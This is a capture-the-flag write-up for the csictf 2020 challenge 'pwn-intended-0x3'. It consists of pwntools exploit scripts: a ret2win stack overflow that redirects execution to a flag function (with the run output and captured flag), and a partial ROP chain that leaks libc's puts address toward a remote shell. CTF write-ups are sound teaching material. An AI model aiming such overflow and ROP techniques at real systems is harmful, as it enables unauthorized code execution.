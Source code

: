 
### Exploit _ret2win_

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./pwn-intended-0x3')
p = remote('chall.csivit.com', 30013)
payload  = 0x28 * b'A'
payload += p64(binary.sym.flag)
p.sendlineafter('Welcome to csictf! Time to teleport again.\n',payload)
p.interactive()
```

### Output

```bash
# ./exploit.py
[*] '/pwd/datajerk/csictf2020/pwn_intended_0x3/pwn-intended-0x3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chall.csivit.com on port 30013: Done
[*] Switching to interactive mode
Well, that was quick. Here's your flag:
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```


### Exploit _remote-shell_

> Not required to get the flag, but for the lulz.

```python
!/usr/bin/python3

from pwn import *

binary = ELF('./pwn-intended-0x3')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

#p = process(binary.path)
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('chall.csivit.com', 30013)
libc = ELF('libc-database/db/libc6_2.23-0ubuntu11.2_amd64.so')

payload  = 0x28 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter('Welcome to csictf! Time to teleport again.\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
log.info('puts: ' + hex(puts))
baselibc = puts - libc.sym.puts
log.info('baselibc: ' + hex(baselibc))
```
